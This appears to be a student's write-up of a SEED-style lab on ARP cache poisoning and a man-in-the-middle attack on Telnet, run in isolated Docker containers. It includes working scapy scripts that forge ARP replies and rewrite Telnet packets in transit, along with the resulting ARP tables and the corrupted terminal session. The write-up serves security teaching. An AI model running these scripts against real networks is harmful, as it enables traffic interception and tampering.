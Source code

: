 ### Docker Config
```shell
seed@VM:~/.../volumes$ dockps
965fffded138  M-10.9.0.105
9cd27edc87ad  B-10.9.0.6
ef3a05ea874d  A-10.9.0.5
```

### Network Config
```shell
M - 10.9.0.105 - 02:42:0a:09:00:69
A - 10.9.0.5   - 02:42:0a:09:00:05
B - 10.9.0.6   - 02:42:0a:09:00:06
```

## Task 2: MITM Attack on Telnet
### Task 2.1: Launch the ARP cache poisoning attack
I first ensured that host A had an ARP cache entry for host B and vice versa. Then, I used the following scapy python script to maliciously overwrite the entries with host M's MAC address:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")
broad_mac = "ff:ff:ff:ff:ff:ff"

#send an ARP request to A associating M's MAC address to B's IP address
E = Ether(dst=A_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = B_ip
A.hwdst = A_mac
A.pdst = A_ip
sendp(E/A)

#send an ARP request to B associating M's MAC address to A's IP address
E = Ether(dst=B_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = A_ip
A.hwdst = B_mac
A.pdst = B_ip
sendp(E/A)
```

We can now see the respective ARP tables for hosts A and B:
```shell
root@9cd27edc87ad:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
10.9.0.5                 ether   02:42:0a:09:00:69   C                     eth0

root@ef3a05ea874d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
```

### Task 2.2: Testing
We first turn off ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
![image](https://github.com/user-attachments/assets/02924e41-eb9f-463f-ab87-c1adb7a9bc4f)
In summary, the ping requests fail, and eventually host A sends out an ARP request to host B who replies with their correct ip address, and the pings begin to succeed.

### Task 2.3: Turn on IP Forwarding
After we poison the caches again, we turn on ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
![image](https://github.com/user-attachments/assets/7b509afd-f039-41de-8fdb-534a72657a8c)
We can see that M makes an ARP request for B and begins forwarding the ping requests from A to B and then back from B to A, acting as the man in the middle.

### Task 2.4: Launch the MITM attack
First, we need to establish a telnet connection from host A to host B (which is being forwarded through host M, our middle man)
```shell
root@ef3a05ea874d:/# telnet 10.9.0.6
Trying 10.9.0.6...
Connected to 10.9.0.6.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
9cd27edc87ad login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Oct 16 23:06:56 UTC 2024 from A-10.9.0.5.net-10.9.0.0 on pts/2
seed@9cd27edc87ad:~$ ls
```

With this connection established, we now turn off M's ip forwarding. Doing so completely freezes the telnet session; our service has been denied! Sad.

Now let's get into the actual Man in the Middle Attack. We'll use the following scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
    if IP in pkt and TCP in pkt:
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            # Create a new packet based on the captured one.
            L3 = IP(src=pkt[IP].src, dst=pkt[IP].dst)
            L4 = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags=pkt[TCP].flags, seq=pkt[TCP].seq, ack=pkt[TCP].ack)
            # Construct the new payload based on the old payload.
            if pkt[TCP].payload:
                data = pkt[TCP].payload.load # The original payload data
                newdata = b"Z"
                newpkt = L3/L4/newdata
                del(newpkt.chksum)
                del(newpkt[TCP].chksum)
                send(newpkt)
                print(f"replaced {data} with {newdata}")
            else:
                send(pkt[IP])
        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))/TCP(bytes(pkt[TCP]))
            del(newpkt.chksum)
            del(newpkt[TCP].chksum)
            send(newpkt)

#we only want to spoof packets between hosts A and B, so isolate their respective addresses
f = f'tcp and (ether src {MAC_A} or ether src {MAC_B})'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```
This will alter the data from A to B such that, whatever A inputs will be replaced with the character Z

Let's run the script on host M and see what the telnet experience becomes!
```shell
seed@9cd27edc87ad:~$ whoami
seed
seed@9cd27edc87ad:~$ wZZZZZZ
-bash: wZZZZZZ: command not found
seed@9cd27edc87ad:~$ lZZZ
-bash: lZZZ: command not found
seed@9cd27edc87ad:~$ hZZZZZZpZ
-bash: hZZZZZZpZ: command not found
seed@9cd27edc87ad:~$
```
as we can see, it renders the telnet client unusable. Here's what it looks like in wireshark:
![image](https://github.com/user-attachments/assets/2c1eed7f-66fa-4e75-bfef-a6c24820dbf8)





